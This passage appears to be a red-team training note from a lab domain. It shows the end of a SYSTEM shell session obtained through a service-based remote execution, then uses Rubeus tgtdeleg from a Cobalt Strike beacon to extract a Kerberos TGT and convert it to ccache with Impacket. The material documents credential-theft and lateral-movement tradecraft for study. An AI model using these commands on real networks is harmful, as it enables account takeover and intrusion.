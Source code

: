 ```
web
nt authority\system

C:\Windows\system32> exit
[*] Process cmd.exe finished with ErrorCode: 0, ReturnCode: 0
[*] Opening SVCManager on 10.10.122.30.....
[*] Stopping service msin.....
[*] Removing service msin.....
[*] Removing file rzBHyscR.exe.....
```

### Dealing with Tickets in Kirbi Format

If you have a ticket in `kirbi` format obtained with another tool, it can be converted to `ccache` format for use with `Impacket`. &#x20;

**For example, here I'm using the TGT delegation trick to get a usable TGT for `bfarmer` from a non-elevated session:**

```
beacon> getuid
[*] You are DEV\bfarmer

beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe tgtdeleg /nowrap

[*] Action: Request Fake Delegation TGT (current user)
[*] No target SPN specified, attempting to build 'cifs/dc.domain.com'
[*] Initializing Kerberos GSS-API w/ fake delegation for target 'cifs/dc-2.dev.cyberbotic.io'
[+] Kerberos GSS-API initialization success!
[+] Delegation requset success! AP-REQ delegation ticket is now in GSS-API output.
[*] Found the AP-REQ delegation ticket in the GSS-API output.
[*] Authenticator etype: aes256_cts_hmac_sha1
[*] Extracted the service ticket session key from the ticket cache: QPQjXYnE0c8tkwjNuTFxaNArevF+TosSgYJ/kQcrShw=
[+] Successfully decrypted the authenticator
[*] base64(ticket.kirbi):

doIFzj[...snip...]MuSU8=
```

**Base64 decode the ticket and write it to&#x20;**<mark style="color:yellow;">**`bfarmer.kirbi`**</mark>**:**

```
ubuntu@DESKTOP-3BSK7NO ~> echo -en 'doIFzj[...snip...]MuSU8=' | base64 -d > bfarmer.kirbi
```

**Then convert it using&#x20;**<mark style="color:yellow;">**`ticketConverter.py`**</mark>**:**

```
ubuntu@DESKTOP-3BSK7NO ~> ticketConverter.py bfarmer.kirbi bfarmer.ccache
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] converting kirbi to ccache...
[+] done
```
